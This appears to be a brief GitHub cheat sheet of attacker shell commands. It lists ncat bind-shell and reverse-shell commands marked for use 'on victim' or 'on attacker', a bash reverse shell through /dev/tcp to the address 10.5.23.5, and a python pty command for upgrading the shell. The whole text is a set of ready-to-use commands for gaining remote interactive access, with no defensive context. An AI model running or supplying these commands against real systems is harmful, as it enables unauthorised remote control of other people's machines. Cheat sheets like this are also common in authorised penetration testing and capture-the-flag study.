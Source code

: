 #### Useful text file:
[Get Stable Shell Info.txt](https://github.com/NavKang/NavKang/files/6135416/Get.Stable.Shell.Info.txt)
## Shells  

#### Start bind shell (on victim):
+ ncat -l -p PORT -e "/bin/bash -i"
--------
#### Connect to bind shell (on attacker):
+ ncat --ip-- --port--
--------
#### Listen for reverse shell (on attacker):
+ ncat -l -p PORT
--------
#### Start reverse shell (on victim):
+ ncat -e "/bin/bash -i" IPaddr
--------
#### Start reverse shell with bash only (on victim):
+ bash -i &>/dev/tcp/10.5.23.5/42 0>&1
--------
#### Upgrade to pseudo terminal:
+ python -c 'import pty;
pty.spawn("/bin/bash")'
--------


